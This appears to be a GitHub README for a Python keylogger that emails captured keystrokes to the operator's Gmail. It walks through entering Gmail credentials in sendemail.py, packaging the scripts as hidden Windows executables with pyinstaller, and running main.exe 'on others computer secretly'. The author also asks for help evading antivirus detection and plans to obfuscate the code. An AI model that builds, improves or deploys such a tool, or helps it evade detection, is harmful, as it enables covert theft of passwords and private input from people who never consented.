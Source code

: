 # keylogger
This keylogger sends key values to your gmail.


1. You need to create your app password first.

2. Then write your app password and gmail in these code..
      -sendemail.py
        
        line 25, msg['To'] = 'your gmail'
        line 26, msg['From'] = 'your gmail'
        
        line 43, server.login('your gmail', 'your app password')

3. Save sendemail.py

4. Thats it, you need to convert three python files(main.py, keyloggerv4.py, sendemail.py) to execution files using pyinstaller -w -F [filename.py]

5. Then all set, To run these, the exe files should be in same folder.



But the problem is software keyloggers get caught by computer vaccine very easily.

So.. Is there anybody who know how to avoid vaccine?
I need help.

I'll study about how to obfuscate code.

HOW TO USE IT
 - Run main.exe(converted to exe file) on others computer secretly.
